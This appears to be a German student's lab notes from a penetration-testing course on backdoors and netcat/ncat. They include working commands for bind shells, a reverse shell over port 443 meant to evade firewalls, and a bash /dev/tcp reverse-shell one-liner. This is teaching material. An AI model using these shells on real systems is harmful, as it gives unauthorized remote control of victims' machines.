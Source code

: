 

![image-20210518151109145](fig/image-20210518151109145.png)

Backdoors werden nach einem erfolgreichem Angriff installiert um den Angreifer einen jederzeitigen Zugang zum System zu ermöglichen. Backdoors sind für reguläre User nicht sichtbar.

Backdoors werden in einer Angriffsphase "maintaining access" eingesetzt 

Meist eine shell in die sich ein Angreifer jederzeit einloggen kann.

- Installation durch ausnutzen von Schwachstellen mit sogenannten shellcode – Schadsoftware die eine shell installiert.

- Backdoors sind manchmal auch in Produkten absichtlich vom Hersteller integriert (undokumentiert und geheim). Zweck: User Support. Wird von Hackern gerne ausgenutzt.

![image-20210518151714203](fig/image-20210518151714203.png)

Um die Malware zu verstecken werden rootkits verwendet.



## Netcat und Ncat

`nc` "netcat" –  sehr flexibles Netzwerk Tool (Chat, Datei)

`ncat` ist eine Weiterentwicklung (aus dem nmap Projekt) muss unter Kali installiert werden. Ist weitgehend zu netcat kompatibel unterstützt aber mehr Features.

```bash
$ apt-get install ncat
```

 Ziel: Verbindung Kali zu Windows über Netcat. Installation von nc auf Windows notwendig. Das Windows Programm ist unter Kali Linux verfügbar:

```bash
$ ls /usr/share/windows-binaries
$ ls -l nc.exe
# Datei zum download bereitstellen

#  kopieren in das Document root verzeichnis des Apache Webservers
$ cp nc.exe /var/www/html/
$ cd /var/www/html/
$ ls

# Webserver starten
$ service apache2 start

# läuft er?
$ ps -ax

# und ist an port gebunden?
$ netstat -tlpn | grep 80
```

Nun unter Windows mit einem Browser herunterladen

```
URL: http://192.../nc.exe
```

Eventuell spricht der Browser Malwareschutz an.

Nun unter Windows nc starten:

```
c:\nc>nc <Ziel IP> <port>
```



Betreiben ncat als Server (Kali) – nc müsste genauso gehen weil kompatibel

```bash
$ ncat -lvnp 4444
# -l ... listen
# -v ... verbose
# -n ... numeric only (keine Namensauflösung)
# -p <port> port an den der Server gebunden werden soll
... Listening on ...
```

Anschauen (in weiterem Terminal) ob Server gebunden ist

```bash
$ netstat -tlpn | grep 4444
```

Windows

```
c:\nc>nc <Ziel IP> 4444

```

Auf der Server Seite tut sich nun etwas (Log Ausgaben)

Auf der Client Seite kann ein beliebiger Text eingegeben werden nach Return erscheint dieser am Server.

Das geht auch umgekehrt, d.h. Eingabe+Return am Server

Es können beliebige Daten übertragen und in Dateien gespeichert werden.



```
c:\nc>nc -nlvp 4444 > data.txt

```

Windows Firewall bemerkt das allerdings!

Kali:

```bash
$ ncat <Ziel IP> 4444
# ein paar Zeilen eingeben
# mit Ctrl-C beenden
```

Unter Windows stehen die eingegebenen Daten nun in `data.txt`

```
c:\nc>nc -nlvp 4444 > wget.exe
```



```bash
$ ncat <Ziel IP> 4444 < /usr/share/windows-binaries/wget.exe
```



### Bind shell

mit der `-e` Option kann ein beliebiges Programm mit dem netcat Server verbunden werden, z.B. eine shell.

```bash
$ ncat -nlvp 4444 -e /bin/bash
```

```
c:\nc>nc <Ziel IP> 4444
```

Auf der Client Seite können Linux Kommandos eingegeben werden, z.B. `ifconfig`, `ls`, `whoami`

Heißt Bind Shell weil diese an einen Port gebunden wurde. 

In der umgekehrten Richtung:

```bash
 c:\nc>nc -nlvp 4444 -e cmd.exe
```

```bash
$ ncat <Ziel IP> 4444
```

z.B. `ipconfig`, `whoami`, `dir`



### Reverse shell

Firewalls behandeln eingehenden Traffic restriktiver als ausgehende Kommunikation.

Das bedeutet, dass es erfolgsversprechender ist ein Verbindung vom Opfer System aus zu starten. In diesem Fall sind die Chancen besser, dass die Verbindung nicht blockiert wird. D.h. das Opfer System initiiert die Verbindung zum Hacker-System. Auf dem Hacker-System muss dazu ein Server laufen und auf die Verbindung warten. 

Am Hacker-System starten wir den Server:

```bash
$ ncat -nlvp 443
```

443 ist der https port

Am Opfer-System nun als Client die Verbindung zum Angreifer aufbauen und eine shell bereitstellen.

```
c:\nc>nc -nv <Ziel IP> 443 -e cmd.exe
```

ToDo: Ausprobieren ob man so die Windows Firewall umgehen kann.

Weitere Variante für die Client Seite:

```bash
$ bash -i >& /dev/tcp/<Ziel IP>/443 0>&1
# -i ... interaktive bash
# >$ ... Ausgabe umleiten (redirecting  standard  output  and  standard error)
# 0>&1 ... stdin (0) ebenfalls von der Netzwerkverbindung nehmen. Damit wird alles vom Zielsystem gesendete von der bash als stdin interpretiert (d.h. die Kommandos)
```



### Privilege Escalation

In einem ersten Schritt erhält ein Angreifer normalerweise nur eine shell eines Users mit normalen Rechten. Das Ziel ist dann diese Rechte bis zur root shell mit Administrator-Privilegien zu erweitern.

Oft ist das erste kontrollierte System auch nur ein Sprungbrett um weitere Systeme zu kompromitieren.

![image-20210518163828076](fig/image-20210518163828076.png)



### Beispiel für Privilege Escalation

Reverse shell durch exploit Kali/msf --> Metasploitable

Video 159/160/161/162

Im letzten Schritt erhält man root Rechte

ToDo: Durcharbeiten und Dokument dazu erstellen



